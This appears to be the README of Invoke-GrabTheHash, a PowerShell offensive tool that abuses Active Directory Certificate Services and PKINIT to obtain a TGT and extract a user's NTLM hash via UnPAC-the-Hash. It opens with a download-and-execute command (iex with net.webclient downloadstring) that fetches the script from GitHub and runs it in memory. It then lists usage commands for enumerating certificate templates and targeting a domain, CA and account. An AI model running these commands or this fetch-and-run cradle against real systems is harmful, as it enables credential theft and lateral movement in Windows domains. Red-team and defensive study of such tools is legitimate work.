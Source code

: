 # Invoke-GrabTheHash
Requests a certificate from a Windows Certificate Authority (CA) for the Current Session User's TGT, uses PKINIT to obtain a TGT for the same user, then performs the UnPAC-the-Hash technique to extract the user's NTLM hash

### Run as follows
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-GrabTheHash/main/Invoke-GrabTheHash.ps1')
```
```
Invoke-GrabTheHash
```

### Specify a target Domain
```
Invoke-GrabTheHash -Domain <domain.name>
```

### Enumerate for Certificate Templates
```
Invoke-GrabTheHash -CertTemplates
```

### Specify a Certificate Template to use
By default, the "User" template is used to request a certificate
```
Invoke-GrabTheHash -TemplateName <template_name>
```

### Specify the CA Name
```
Invoke-GrabTheHash -CAName "CA01.domain.local\domain-CA01-CA"
```

### Specify the User Account Name
This must correspond to the TGT Account Name in your current session
```
Invoke-GrabTheHash -CN <samaccountname>
```

### Example Output
![image](https://github.com/Leo4j/Invoke-GrabTheHash/assets/61951374/fcb77053-ebf9-4132-bbaf-8a576a6d08b1)
